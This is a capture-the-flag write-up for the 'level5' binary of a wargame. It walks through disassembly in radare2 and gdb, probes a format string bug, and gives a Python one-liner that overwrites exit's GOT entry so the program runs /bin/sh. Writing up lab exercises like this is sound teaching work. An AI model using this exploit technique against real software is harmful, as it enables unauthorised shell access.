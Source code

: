 As always we start this level with `radare2` and `gdb` to gather informations:
```bash
[0x080483f0]> afl
0x08048380    1      6 sym.imp.printf
0x08048390    1      6 sym.imp._exit
0x080483a0    1      6 sym.imp.fgets
0x080483b0    1      6 sym.imp.system
0x080483d0    1      6 sym.imp.exit
0x080483e0    1      6 sym.imp.__libc_start_main
0x080483f0    1     33 sub.entry0_80483f0
0x08048420    6     85 sym.__do_global_dtors_aux
0x08048480    4     35 sym.frame_dummy
0x080485a0    4     42 sym.__do_global_ctors_aux
0x08048590    1      2 sym.__libc_csu_fini
0x08048592    1      4 sym.__i686.get_pc_thunk.bx
0x080484c2    1     66 sym.n
0x080485cc    1     26 sub._fini_80485cc
0x08048520    4     97 sym.__libc_csu_init
0x080484a4    1     30 sym.o
0x08048504    1     11 sub.main_8048504
0x08048334    3     46 sub._init_8048334
0x080483c0    1      6 sub.loc.imp.__gmon_start___80483c0
[0x080483f0]> pdf @ sym.o
┌ 30: sym.o (); // noreturn
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f085..   mov dword [esp], str._bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c704240100..   mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
[0x080483f0]>
[0x080483f0]> pdf @ sym.n
            ; CALL XREF from sub.main_8048504 @ 0x804850a(x)
┌ 66: sym.n (); // noreturn
│ afv: vars(3:sp[0x20c..0x218])
│           0x080484c2      55             push ebp
│           0x080484c3      89e5           mov ebp, esp
│           0x080484c5      81ec18020000   sub esp, 0x218
│           0x080484cb      a148980408     mov eax, dword [obj.stdin]  ; loc.__bss_start
│                                                                      ; [0x8049848:4]=0
│           0x080484d0      89442408       mov dword [stream], eax     ; FILE *stream
│           0x080484d4      c744240400..   mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
│           0x080484dc      8d85f8fdffff   lea eax, [format]
│           0x080484e2      890424         mov dword [esp], eax        ; char *s
│           0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x080484ea      8d85f8fdffff   lea eax, [format]
│           0x080484f0      890424         mov dword [esp], eax        ; const char *format
│           0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x080484f8      c704240100..   mov dword [esp], 1          ; int status
└           0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)
[0x080483f0]>
```

The function `o` has a call to `/bin/sh` but isn't called by the program, so we're going to try and call it ourselves !
Since we want to execute a function, we are going to try and **replace `exit`'s call with a call to `o`**.
Using `gdb` we find `exit`'s GOT address:
```bash
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

Let's see where our printf writes:
```bash
level5@RainFall:~$ ./level5
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```

Now that we know this, we're going to convert `o`'s address in dec, `0x080484a4 = 134513828 - 4 = 134513824` (4 chars removed for the address).
And we craft a script to finally exploit it:
```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824c%4$n"' && cat) | ./level5
```
And we get the flag.



